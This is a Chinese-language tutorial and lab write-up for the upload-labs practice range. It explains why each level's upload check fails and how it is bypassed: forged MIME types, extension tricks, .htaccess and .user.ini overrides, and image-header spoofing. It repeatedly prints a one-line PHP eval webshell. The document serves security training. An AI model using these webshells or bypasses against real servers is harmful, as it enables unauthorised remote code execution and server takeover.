> Environment: PHP Apache

> Lab: upload-labs

---

## 1.0 文件上传基础

**01 文件上传漏洞是什么?**

文件上传漏洞是指攻击者上传了一个可执行的文件到服务器并成功执行,  从而获取服务器权限的漏洞. 其本质是**服务端未对上传文件进行充分校验**,  导致恶意文件(如 WebShell)被当作合法文件存储并解析执行.

**02 攻击链**


**03 项目搭建**

| 项目 | 说明 |
|------|------|
| 靶场地址 | https://github.com/c0ny1/upload-labs |
| 推荐环境 | phpstudy（Windows）/ Docker |
| PHP版本 | 5.2 ~ 5.6（部分关卡需要低版本） |
| Web服务器 | Apache（.htaccess相关关卡需要） |
| 工具 | Burp Suite, HxD(十六进制编辑器), 蚁剑/冰蝎 |

**04 一句话木马**

```php
<?php
@eval($_POST['cmd']);
?>
```

---

## 2.0 upload-labs实战

### 2.1 前端JS校验绕过(Pass-01)

#### 01 原理

- 服务端未做任何校验, 仅通过前端JavaScript的 `onsubmit`事件检查文件后缀. 由于JS运行在客户端, 攻击者可完全控制.

#### 02 绕过方式

| 方法  | 操作                                     |
| ----- | ---------------------------------------- |
| 方法1 | 浏览器设置中禁用 JavaScript              |
| 方法2 | 先上传合法图片，Burp 抓包改后缀为 `.php` |



> 上图展示关闭浏览器JS校验




> 如上图, BurpSuite抓包后修改文件后缀为.php即可

#### 03 获取shell(示例工具为蚁剑)



> 如图, 已成功获取webshell !

---

### 2.2 MIME类型校验绕过(Pass-02)

#### 01 原理

- 服务端检查 HTTP 请求中的 `Content-Type` 字段, 判断文件是否为图片类型. 该字段由客户端控制, 可任意伪造. 

- 常见 MIME 类型:

  | 后缀 | Content-Type      |
  | ---- | ----------------- |
  | .jpg | image/jpeg        |
  | .png | image/png         |
  | .gif | image/gif         |
  | .php | application/x-php |

#### 02 绕过方式

Burp 抓包 → 将 `Content-Type: application/x-php` 改为 `image/png`



> 如上图, 修改抓包数据, 即可实现上传绕过
>
> 结论: MIME 类型由客户端声明, 不可作为安全校验依据

---

### 2.3.1 黑名单绕过 - 非常规后缀(等价扩展名)(Pass-03)

#### 01 原理:

- 服务端维护一个"禁止上传的后缀列表"(黑名单)
  如果文件后缀不在列表中则允许上传
  绕过思路: **找到一个不在黑名单中, 但服务器仍会解析为 PHP 的后缀或变形**

**黑名单缺陷:** 

- 黑名单永远无法穷举所有危险后缀, 只要遗漏一个，就可能被绕过

#### 02 绕过方式

**注意:** 需要将Apache配置文件`httpd.conf` 修改以下参数

```conf
AddType application/x-httpd-php .php .phtml .php3
```

> 修改后重启Apache服务



> 如上图, 修改后缀为.php3 Forward后, 用蚁剑测试图片链接

### 2.3.2 黑名单绕过 - 大小写绕过(Pass-06)

#### 01 原理

- 黑名单中只写了小写 `.php`, 但 Windows 文件系统不区分大小写
- Windows系统中, 对文件名后缀大小写不敏感, 例: `.php = .PhP`
- Linux系统中, 对文件名后缀大小写敏感, `.php ≠ .PhP`通常被认定为两个文件

#### 02 绕过方式

BurpSuite 抓包, 将对应字段的.php修改为带大写字母即可



> 如上图, 修改后缀为.Php Forward后, 用蚁剑测试图片链接

### 2.3.3 黑名单绕过 - 后缀空格绕过(Pass-07)

#### 01 原理

- 黑名单检查时未对后缀做 `trim()` 处理, 但 Windows 文件系统会自动去除文件名末尾的空格

#### 02 绕过方式

 BurpSuite 抓包, 将文件名改为 `demo.php `(此处实际存在空格)



> 如上图, 修改后缀为.php[空格]  Forward后, 用蚁剑测试图片链接

### 2.3.4 黑名单绕过 - 后缀点绕过(Pass-08)

#### 01 原理

- 与空格类似, Windows 文件系统会自动去除文件名末尾的点号

#### 02 绕过方式

文件名改为 `demo.php.`



> 修改后缀为.php.  Forward后, 用蚁剑测试图片链接

### 2.3.5 黑名单绕过 - ::$DATA绕过(Pass-09)

#### 01 原理

- Windows NTFS 文件系统的**数据流特性**, 在文件名后附加 `::$DATA`, Windows 会将其视为默认数据流, 实际创建的文件名不包含 `::$DATA` 部分

#### 02 绕过方式

文件名改为`demo.php::$DATA`

> 仅限Windows+NTFS文件系统



> 修改后缀为.php::$DATA  Forward后, 用蚁剑测试图片链接(URL需去掉::$DATA)

### 2.3.6 黑名单绕过 - 点空格点绕过(Pass-10)

#### 01 原理

- 黑名单检查后缀时, 取最后一个 `.` 后的内容, 构造 `demo.php. .`(点+空格+点), 经过 `trim()` 和 `deldot()` 处理后, 最终后缀变为 `.php.`, 但黑名单检查时可能已经通过

#### 02 绕过方式

文件名改为`demo.php. .`



> 后缀变化 .php. . →.php.

### 2.3.7 黑名单绕过 - 双写绕过(Pass-11)

#### 01 原理

- 服务端使用 `str_ireplace()` 将黑名单后缀替换为空字符串, 但只替换一次, 不做递归

#### 02 绕过方式

文件名改为`demo.pphphp`



---

### 2.4 .htaccess文件绕过(Pass-04)

#### 01 原理

- Apache 支持目录级配置文件 `.htaccess`如果能上传一个 `.htaccess` 文件到上传目录, 就可以让该目录下的所有文件都被 PHP 引擎解析

**前提条件**

- Apache服务器

- `httpd.conf`文件中 AllowOverride All

- 上传目录可写

  | 类型     | httpd-conf | .htaccess  |
  | -------- | ---------- | ---------- |
  | 作用范围 | 整个服务器 | 当前目录   |
  | 优先级   | 较低       | 较高       |
  | 生效方式 | 重启服务器 | 修改即生效 |

  - **.htaccess**

  ```bash
  AddType application/x-httpd-php .txt .jpg
  ```

#### 02 绕过方式

- 上传 `.htaccess`文件

- 上传Script文件 `.jpg`或`.txt`(与.htaccess对应)



> 依次上传.htaccess → demo.jpg(包含php代码)

---

### 2.5 .user.ini文件绕过(Pass-05)

#### 01 原理

- PHP 支持目录级配置文件 `.user.ini`, 其中 `auto_prepend_file` 指令可以让每个 PHP 文件执行前
  自动包含指定文件

| 类型 | php.ini                 | .user.ini                |
| ---- | ----------------------- | ------------------------ |
| 描述 | 存储整个php环境生效配置 | 特定用户或目录的配置文件 |
| 位置 | php安装目录             | Web应用程序根目录        |
| 作用 | php环境配置             | 覆盖或追加全局配置文件   |

#### 02 绕过方式

- 编写`.user.ini`文件

  ```bash
  auto_prepend_file=test.txt
  # 在所有文件中都包含test.txt中文件内容
  ```

- 编写`test.txt`文件

  ```php
  <?php
  @eval($_POST['cmd']);
  echo "test";
  ?> 
  ```

- 依次上传`.user.ini` `test.txt`

- 访问/upload-labs/readme.php



> 文件被成功包含, 且蚁剑可连接

---

### 2.6.1 图片马绕过-文件头绕过(Pass-14)

#### 01 原理

- 服务端只检查文件头的几个字节, 不检查文件完整内容

- 常见文件头:

  | 格式 | 文件头(Hex) |
  | ---- | ----------- |
  | JPEG | FF D8 FF E0 |
  | PNG  | 89 50 4E 47 |
  | GIF  | 47 49 46 38 |

#### 02 绕过方式

- 将`demo.php`十六进制编码前两位改为PNG格式`89 50`

- 上传文件绕过验证

- 通过文件包含方式访问

  `demo.php`写入以下内容, 并通过`010Editor`(工具) 修改Hex

  ```php
  // aa占位, 修改Hex参数预留
  aa
  <?php
  @eval($_POST['cmd']);
  ?> 
  ```

  

  

### 2.6.2 图片马绕过-getimagesize()(Pass-15)

#### 01 原理

- `getimagesize()` 比简单的文件头检查更严格, 它会尝试解析图片的完整结构, 但对于 GIF 格式
  只需在文件开头加上 `GIF89a` 即可骗过

#### 02-1 绕过方式 1

- 修改文件头, 使用文件包含访问

  

